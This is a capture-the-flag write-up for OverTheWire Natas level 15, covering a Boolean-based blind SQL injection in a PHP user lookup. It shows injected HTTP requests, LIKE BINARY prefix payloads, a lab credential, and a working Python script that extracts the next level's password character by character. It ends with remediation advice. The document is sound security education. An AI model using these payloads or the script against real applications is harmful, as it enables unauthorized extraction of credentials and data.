


# Natas Level 15 → 16

**Vulnerability:** Blind SQL Injection → Boolean-Based Enumeration
**Difficulty:** Medium
**Tools Used:** Browser, Python Requests, Source Code Review
**OWASP Category:** A03:2021 – Injection

---

## What the level gives you

The application provides a username lookup feature instead of a login form.

A source code link is available, allowing inspection of how user input is processed. Unlike the previous level, query results are no longer displayed directly. The application only indicates whether a matching user exists.

The objective is to recover the password for Natas16 despite the absence of direct database output.

---

## Source code analysis

The application constructs a database query using user-controlled input:

```php
$link = mysqli_connect("localhost", "natas15", "<censored>");
mysqli_select_db($link, "natas15");

$query =
"SELECT * from users where username=\"".$_REQUEST["username"]."\"";

// User input is inserted directly into the SQL query
// No parameterization or escaping is performed
// An attacker can inject arbitrary SQL conditions
```

The query is executed against the database:

```php
$res = mysqli_query($link, $query);

// The database processes attacker-controlled SQL syntax
```

Instead of displaying query results, the application only reveals whether rows were returned:

```php
if(mysqli_num_rows($res) > 0) {
    echo "This user exists.";
}
else {
    echo "This user doesn't exist.";
}

// The application leaks a TRUE/FALSE condition
// This creates a Boolean-based blind SQL injection primitive
```

Although database content is hidden, attackers can still infer information by observing whether injected conditions evaluate to true or false.

---

## Approach

My first observation was that the SQL injection vulnerability from the previous level still existed.

The query construction remained vulnerable because user input was concatenated directly into the SQL statement.

However, unlike Natas14, the application no longer returned database records. The only observable behavior was whether the message "This user exists." appeared.

I first tested simple boolean conditions to determine whether injected expressions influenced the application's response. Once I confirmed that true and false conditions produced different results, the challenge became extracting the password one character at a time.

Because the password contains 32 characters and each position required multiple tests, manual extraction would have been extremely slow. Automation became the most practical approach.

---

## Exploitation

The first step was verifying that injected boolean conditions affected the application's response.

True condition:

```http
POST /index.php HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded

username=natas16" AND 1=1#

# Injected condition evaluates to TRUE
# Query returns rows
```

Response:

```text
This user exists.
```

False condition:

```http
POST /index.php HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded

username=natas16" AND 1=2#

# Injected condition evaluates to FALSE
# Query returns no rows
```

Response:

```text
This user doesn't exist.
```

After confirming blind SQL injection, password extraction was performed using prefix matching.

Example payload:

```sql
natas16" AND password LIKE BINARY "a%"#

-- Tests whether the password begins with "a"
```

If the condition was true, the application displayed:

```text
This user exists.
```

Otherwise:

```text
This user doesn't exist.
```

The process was automated using Python.

```python
import requests
import string

url = "http://natas15.natas.labs.overthewire.org"
auth = ("natas15", "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx")

chars = string.ascii_letters + string.digits

password = ""

while len(password) < 32:
    for c in chars:
        payload = f'natas16" AND password LIKE BINARY "{password+c}%"#'

        r = requests.post(
            url,
            auth=auth,
            data={"username": payload}
        )

        if "This user exists" in r.text:
            password += c
            print(password)
            break

print("Password:", password)

```

The script progressively recovered the password one character at a time until the full Natas16 password was obtained.

---

## Screenshot

### Source code vulnerability

Shows SQL query construction using unsanitized user input.



### Password retrieval

Shows automated password extraction and recovery of the Natas16 password.



---

## Real-world relevance

This vulnerability falls under OWASP A03:2021 – Injection. Boolean-based blind SQL injection is commonly encountered when applications suppress database errors and prevent direct query output.

During professional web application assessments, testers frequently encounter situations where data cannot be displayed directly. In these cases, attackers rely on observable application behavior to infer database contents one bit or one character at a time.

Blind SQL injection has been used to extract credentials, API keys, customer records, and other sensitive information from production systems despite the absence of visible database output.

---

## Defender's perspective

The root cause is direct insertion of user-controlled input into SQL statements.

Prepared statements and parameterized queries eliminate both traditional and blind SQL injection by ensuring user input is treated as data rather than executable SQL.

Additional protections include strict server-side validation, least-privilege database permissions, and WAF rules capable of identifying SQL injection enumeration patterns.

---

## What I'd do differently

Instead of testing characters sequentially, I would implement a binary-search-based extraction strategy using ASCII comparisons. This would significantly reduce the number of requests required to recover the password.
